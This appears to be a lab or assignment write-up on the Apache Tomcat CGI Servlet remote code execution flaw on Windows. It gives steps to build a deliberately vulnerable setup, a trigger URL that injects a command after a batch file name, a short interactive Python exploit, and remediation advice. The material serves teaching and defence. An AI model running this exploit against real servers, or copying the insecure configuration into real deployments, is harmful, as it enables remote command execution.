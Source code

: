 # PS
- Bug Overview: Apache Tomcat has a vulnerability in the CGI Servlet which can be exploited to achieve remote code execution (RCE). This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files.
- Aim: Write a working exploit by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Environment Setup:
1. Install a Java Runtime Environment (JRE) in Windows.
1. Download a vulnerable version of Tomcat and extract.
1. Modify the `conf\context.xml` file on line 19, to enable privileged context:

	``` html
	<Context privileged="true">
	```	
1. Modify `conf\web.xml` to enable the CGI Servlet by removing the comments around line 387 as follows and adding the following parameters: 

	``` html

	<servlet><servlet-name>cgi</servlet-name>
	<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
	<init-param>
	  <param-name>cgiPathPrefix</param-name>
	  <param-value>WEB-INF/cgi</param-value>
	</init-param>
	<init-param>
	  <param-name>executable</param-name>
	  <param-value></param-value>
	</init-param>
	<init-param>
	  <param-name>enableCmdLineArguments</param-name>
	  <param-value>true</param-value>
	</init-param>
	<load-on-startup>5</load-on-startup>
	</servlet>
	```

1.	Enable the CGI servlet by removing comments around this – you also need to change the URL pattern to match the one in the previous step (`cgi`):
	``` html
	<servlet-mapping>
	<servlet-name>cgi</servlet-name>
	<url-pattern>/cgi/*</url-pattern>
	</servlet-mapping>
	```

1.	Create a folder for the CGI files:
 	`mkdir webapps\ROOT\WEB-INF\cgi`
1.	Create any non empty bat file with valid commands.
1.	Run Tomcat via the following command:

	``` bash
        cd bin
	catalina run
        ```
1.	Trigger the following URLs and observe the dir command being run:	http://localhost:8080/cgi/test.bat?&dir
Or run the attached exploit code.
  
# Exploit Code:

```python3

	import requests as re
	base_url = raw_input("Enter url of the .bat cgi script: ")
	while(True):
		command = raw_input("Enter the command: ")
		command = '&echo off'+'&echo.'+'&'+command
		r = re.get(base_url, params=command.replace(" ","+"))
		print(r.text)
```
  
# Remediation:
1.	Set `enableCmdLineArguements` to `False`.
1.	If above option is required then add additional parameter `cmdLineArgumentsDecoded` for proper input validation. 
